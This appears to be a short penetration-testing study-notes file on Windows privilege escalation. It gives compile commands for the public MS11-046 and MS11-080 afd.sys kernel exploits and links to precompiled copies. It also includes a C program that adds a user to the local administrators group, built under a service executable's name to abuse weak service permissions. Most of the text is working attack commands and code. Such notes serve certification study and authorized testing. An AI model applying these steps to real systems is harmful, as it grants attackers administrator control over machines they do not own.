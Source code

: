 # Windows Privilage Escalation
------------------------------------

MS11-046 "afd.sys" 
---------------------------------------
Supported Versions: xp-win7

https://www.exploit-db.com/exploits/40564

Complie it using the following command:
------

i686-w64-mingw32-gcc MS11-046.c -o MS11-046.exe -lws2_32 

--------------------------------------
MS11-080 "afd.sys"
---------------------------------------
Supported Versions: xp/2003

https://www.exploit-db.com/exploits/18176

Run it on the client machine.

python pyinstaller.py --onefile ms11-080.py (on windows!)

** I already compiled the exploit and uploaded it to my private repo on "https://www.github.com/NetanelShoshan/OSCP" 

--------------------------------------
Incorrect File and Service permissions:
---------------------------------------
useradd.c

include <stdlib.h>
/* system, NULL, EXIT_FAILURE */
int main ()
{
int i;
i=system ("net localgroup administrators low /add");
return 0;
}
Compile the code above using the following command:
----
i686-w64-mingw32-gcc -o scsiaccess.exe useradd.c
--------------------------------------



